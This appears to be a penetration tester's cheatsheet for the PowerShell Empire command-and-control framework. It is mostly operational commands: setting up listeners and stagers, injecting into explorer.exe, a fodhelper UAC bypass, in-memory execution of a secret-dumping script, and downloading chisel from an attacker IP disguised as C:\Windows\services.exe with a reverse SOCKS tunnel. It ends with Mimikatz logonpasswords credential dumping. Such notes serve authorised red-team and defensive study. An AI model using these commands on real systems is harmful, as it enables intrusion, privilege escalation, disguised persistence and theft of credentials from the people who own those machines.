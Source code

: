 # Empire

* [https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)




## Install

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git
$ cd Empire
$ sudo ./setup/install.sh
$ sudo poetry install
```

To compile C# agents ([Covenant](https://github.com/cobbr/Covenant) and [Sharpire](https://github.com/0xbadjuju/Sharpire)) [install](https://docs.microsoft.com/en-us/dotnet/core/install/linux-debian#supported-distributions) .NET SDK 3.1:

```
$ wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
$ sudo dpkg -i packages-microsoft-prod.deb
$ rm packages-microsoft-prod.deb

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y dotnet-sdk-3.1

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y aspnetcore-runtime-3.1
```




## Run

```
$ ./ps-empire server [--restip 127.0.0.1 --username snovvcrash --password 'Passw0rd!']
$ ./ps-empire client
```

Reset the database:

```
$ ./ps-empire server --reset
```




## Cheatsheet

Prepare a listener:

```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: uselistener/http) > set Name http1
(Empire: uselistener/http) > set Host 10.10.13.37
(Empire: uselistener/http) > set Port 80
(Empire: uselistener/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher
(Empire: usestager/multi/launcher) > set Listener http1
(Empire: usestager/multi/launcher) > set OutFile pwsh.ps1
(Empire: usestager/multi/launcher) > generate
```

Generate a C# stager:

```
(Empire: listeners) > useplugin csharpserver
(Empire: useplugin/csharpserver) > set status start
(Empire: useplugin/csharpserver) > execute
(Empire: useplugin/csharpserver) > usestager windows/csharp_exe
(Empire: usestager/windows/csharp_exe) > set Listener http1
(Empire: usestager/windows/csharp_exe) > set OutFile csharp.exe
(Empire: usestager/windows/csharp_exe) > generate
```

Re-inject into an interactive process (e.g., `explorer.exe`):

```
(Empire: listeners) > agents
(Empire: agents) > rename LKH7SD3V A1
(Empire: agents) > interact A1
(Empire: A1) > sysinfo
(Empire: A1) > shell Get-Process explorer
(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1
(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e.g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule management/invoke_script
(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1
(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"
(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e.g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing
(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a custom Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command
(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "token::elevate" "ts::logonpasswords" "exit"'
(Empire: powershell/credentials/mimikatz/command) > run
```




## Plugins

* [https://github.com/BC-SECURITY/SocksProxyServer-Plugin](https://github.com/BC-SECURITY/SocksProxyServer-Plugin)
* [https://github.com/BC-SECURITY/ChiselServer-Plugin](https://github.com/BC-SECURITY/ChiselServer-Plugin)




## Customizing Agents

* [https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)
